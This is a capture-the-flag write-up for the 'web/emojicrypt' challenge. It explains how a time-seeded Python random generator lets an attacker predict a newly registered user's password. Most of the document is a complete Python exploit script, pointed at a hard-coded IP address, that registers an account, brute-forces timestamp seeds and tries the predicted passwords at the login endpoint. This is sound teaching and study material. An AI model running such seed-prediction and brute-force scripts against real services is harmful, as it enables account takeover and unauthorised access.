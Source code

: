 
# Writeup for `web/emojicrypt`, Hacking Time and Randomization

## Vulnerability Overview

`web/emojicrypt` Uses `random.choice(NUMBERS)  for  _  in  range(32)` with the default seed. Normally, in python3, the default seed is the current Unix timestamp. (See https://www.unixtimestamp.com/ for more explanation on the Unix Timestamp format.) Because of this, we can simply find out the timestamp by going from 50 seeds before the timestamp to 50 seeds after, allowing us to find out the password.

## Application Architecture

The application consists of:
1. A web frontend that allows users to login and register
2. A random password generator via `random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))`
3. A simple database accessed by `DATABASE  =  'users.db'` and `cursor.execute("SELECT salt, password_hash FROM users WHERE username = ?",  (username,))` 

## Vulnerability Details

The vulnerability exists in the `register()` function, specifically in line 46:

```python
random_password  =  ''.join(random.choice(NUMBERS)  for  _  in  range(32))
```

Looking at the definition of python's `random.seed()` function, it states that:

`None or no argument seeds from current time or from an operating system specific randomness source if available.`

Which means that since the server is running on Linux, we can assume that the seed is derived from the Unix Time-stamp. which means that we can potentially get the seed just by looking at the time.

## Exploit Chain
To demonstrate this part of the writeup, we will pretend that english is code.
1. First, Register an account:

```
unique_suffix  =  randnum(1000,9999)
Username = "Wehacking" + unique_suffix	
Email  =  "exploit_(unique_suffix)@example.com"
timebeforeregister = gettimebeforeregister
startsession
payload = {'username' : Username, 'email' : Email}
post(payload)
if respcode is 200:
	print its working!!
```
	


2. Do the following:
   - have a variable thats `timebeforegister` + 1 and `timebeforegister` - 50
   - Then loop thru each of these numbers generating an instance of that seed (like `1744021834`,`1744021835`,`1744021836` and so on.
   - Generate a password with each seed
   - Try each password until you get the correct password.

## Root Cause Analysis


1. **Poor Time-Based Attack Mitigation**: The application relies on time-based values (the Unix timestamp) to seed the random generator. This is insecure because an attacker can brute-force possible seeds within a range of Unix timestamps, giving them a manageable set of seeds to test.
2. **Lack of Rate-Limiting or Delays**: The application is vulnerable to brute-force attacks by allowing to repeatedly try passwords within a small window without rate-limiting or delays between attempts. Because of this, the attacker can try a large number of passwords in a short amount of time, reducing the effort needed to guess the correct password.

## Automation Code
```py 
import requests
import random
import time
import sys

# --- Configuration ---
# <<< CHANGE MADE HERE >>>
BASE_URL = "http://52.188.82.43:8060"
# <<< END CHANGE >>> 

REGISTER_URL = f"{BASE_URL}/register"
LOGIN_URL = f"{BASE_URL}/login"


unique_suffix = str(random.randint(1000, 9999)) # Add randomness 
USERNAME = f"exploit_user_{unique_suffix}"
EMAIL = f"exploit_{unique_suffix}@example.com"

# Constants from the Flask app (ensure these match the target server)
EMOJIS = ['🌀', '🌁', '🌂', '🌐', '🌱', '🍀', '🍁', '🍂', '🍄', '🍅', '🎁', '🎒', '🎓', '🎵', '😀', '😁', '😂', '😕', '😶', '😩', '😗']
NUMBERS = '0123456789'
 
# How many seconds around the registration time to check for seeds
SEED_SEARCH_RANGE_SECONDS = 50 # Increased slightly for potential network delay/clock skew

# --- Exploit Logic ---

print(f"Targeting server: {BASE_URL}")
print(f"Attempting to register user: {USERNAME} / {EMAIL}")

# Get time just before registration
start_time = time.time()
registration_timestamp_guess = int(start_time)

try:
    # Use a session to handle cookies if necessary
    session = requests.Session()

    register_payload = {
        'username': USERNAME,
        'email': EMAIL
    }
    # Attempt registration
    reg_response = session.post(REGISTER_URL, data=register_payload, timeout=15) # Increased timeout
    print(f"Registration attempt status: {reg_response.status_code}")

    # Check if registration seemed successful (redirect expected, or 400 if user exists)
    if reg_response.status_code == 200:
        print("Registration successful.")
    elif reg_response.status_code == 400:
        print("Registration failed (status 400) - User likely already exists. Trying to log in anyway.")

    else:
         print(f"Warning: Unexpected registration status code: {reg_response.status_code}")
         print(f"Response text: {reg_response.text}")
         # Continue anyway, maybe it still worked enough

except requests.exceptions.RequestException as e:
    print(f"Error during registration: {e}")
    sys.exit(1)

print(f"Registration attempt finished. Estimated timestamp: {registration_timestamp_guess}")
print(f"Searching seeds from {registration_timestamp_guess - SEED_SEARCH_RANGE_SECONDS} to {registration_timestamp_guess + SEED_SEARCH_RANGE_SECONDS}")

found_flag = False
# Iterate through potential seeds (timestamps around registration time)
for seed_offset in range(-SEED_SEARCH_RANGE_SECONDS, SEED_SEARCH_RANGE_SECONDS + 1):
    current_seed = registration_timestamp_guess + seed_offset
    
    print(f"[*] Trying seed: {current_seed}...")
    

    # Seed the local random generator
    random.seed(current_seed)

    # --- Simulate server's random generation ---
    # 1. Simulate salt generation (advance the PRNG state 12 times)
    _ = random.choices(EMOJIS, k=12)

    # 2. Simulate password generation (next 32 random choices)
    predicted_password = ''.join(random.choice(NUMBERS) for _ in range(32))

    # --- Attempt Login ---
    login_payload = {
        'username': USERNAME,
        'password': predicted_password
    }

    try:
     
        login_response = session.post(LOGIN_URL, data=login_payload, allow_redirects=False, timeout=10)

        if login_response.status_code == 200:
            # Print a newline to clear the "... trying seed" line
            print("\n" + "="*20)
            print(f"[+] SUCCESS! Found correct password with seed: {current_seed}")
            print(f"[+] Used Username: {USERNAME}")
            print(f"[+] Predicted Password: {predicted_password}")
            print(f"[+] Flag/Response:")
            # Try to decode if bytes, otherwise print text
            try:
                print(login_response.content.decode('utf-8'))
            except UnicodeDecodeError:
                print(login_response.content) 
            print("="*20 + "\n")
            found_flag = True
            break 

    except requests.exceptions.Timeout:
       
        print(f"[!] Timeout during login attempt with seed {current_seed}. Trying next...", ' '*20, end='\r')
        sys.stdout.flush()
        # Continue to the next seed
    except requests.exceptions.RequestException as e:
        # Print a newline to clear the "... trying seed" line
        print("\n")
        print(f"[!] Error during login attempt with seed {current_seed}: {e}")
        # Potentially add a small delay before continuing if errors persist
        time.sleep(0.5)
        # Continue to the next seed

# Clear the "Trying seed..." line if loop finishes without success
print(" " * 80, end='\r')

if not found_flag:
    print("\n[-] Exploit failed. Could not find the correct password within the seed range.")
    
```
